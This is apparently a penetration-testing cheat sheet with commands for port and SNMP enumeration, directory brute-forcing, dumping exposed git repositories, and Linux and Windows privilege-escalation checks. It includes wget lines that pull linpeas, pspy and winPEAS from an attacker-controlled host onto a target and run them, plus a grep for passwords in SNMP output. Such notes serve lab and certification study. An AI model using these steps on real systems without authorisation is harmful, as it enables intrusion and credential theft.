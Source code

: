 ### 🦶 Initial Foothold

#### Port Scanning
```bash
# TCP - manual probe for "weird" ports
nc -nv 192.168.X.X <port>
# help
# version

# UDP - SNMP enumeration
snmpwalk -v2c -c public <target>
snmpwalk -v2c -c public <target> 1.3.6.1.4.1
snmpwalk -v2c -c public <target> | grep -Ei 'user|admin|name|passwd'
```

#### Web Enumeration
```bash
# Directory enumeration
gobuster dir -u http://<IP> -w /usr/share/wordlists/dirb/common.txt

# Git repository dump
git-dumper http://192.168.X.X/.git/ ./<local-dir>
git log | grep commit | cut -d " " -f2 | xargs git show > commits
```

### 🚀 Privilege Escalation

#### Linux Privilege Escalation
```bash
# Check sudo access
sudo -l

# Transfer PE scripts
wget http://192.168.X.X:8888/linpeas.sh -o linpeas.sh

# Check SUIDs
find / -type f -perm -u=s 2>/dev/null

# Check kernel version
uname -a

# Check active sockets
ss -tunlp
lsof -i :8000
ps aux | grep 8000

# Process monitoring
wget http://192.168.X.X:8888/pspy32 -o pspy32
./pspy32
```

#### Windows Privilege Escalation
```powershell
# Check privileges
whoami /priv

# Transfer PE scripts
wget http://192.168.X.X:8888/winPEASx64.exe -o winpeas.exe

# Check system info
systeminfo

# Check active sockets
netstat -ano
```